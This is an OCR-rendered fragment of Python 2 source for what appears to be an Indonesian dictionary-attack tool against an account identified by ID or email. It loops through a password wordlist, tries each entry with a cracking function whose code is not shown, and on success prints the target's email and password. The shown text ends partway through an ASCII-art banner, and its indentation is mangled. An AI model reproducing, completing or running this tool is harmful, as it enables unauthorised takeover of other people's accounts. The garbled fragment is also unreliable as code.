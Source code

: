 			print ("\033[96m                S U C C E S S")

			print "          P A S S W O R D  F I N D "

                  	print RR+"+-------------------------------------------+"

	         	print (RR+"#\033[97m ID / Email Target:\033[92m {}").format(email_target)

        	        print (RR+"#\033[97m Password Target:\033[92m {}").format(iqbalz_password)

        	        print " "

        	        raw_input(WW+"TEKAN ENTER UNTUK KELUAR...")

			sys.exit(1)

  

  

  except KeyboardInterrupt:

      print wd+"Stop......."

      edit_wordlist()

      sys.exit()    	    

def life():

	global iqbalz_password

	password_nob = open(password_list, "r")

	for iqbalz_password in password_nob:

		password_nob = iqbalz_password.replace("\n","")

		iqbalz(iqbalz_password)		

def runn_noobs():

         global password_list

         lop = GG+"""

                  `.-://////:-.`

              .:+o+:-..````..-:+o+:.

           `:o+-`                `:+o:`

         `/o:`                      `:o/`

        -s/`  .-..`            `..--` `/s-

       /o.   `:.`.-:----------:-.``:-   .o/

      /o`    .:`    `              --    `o/

     -s.     .:`                   --     .s-

     o/     .:`                     --     +o

    .s-     :.                      `:`    -s`

    .s.     :.                      `:`    .s.
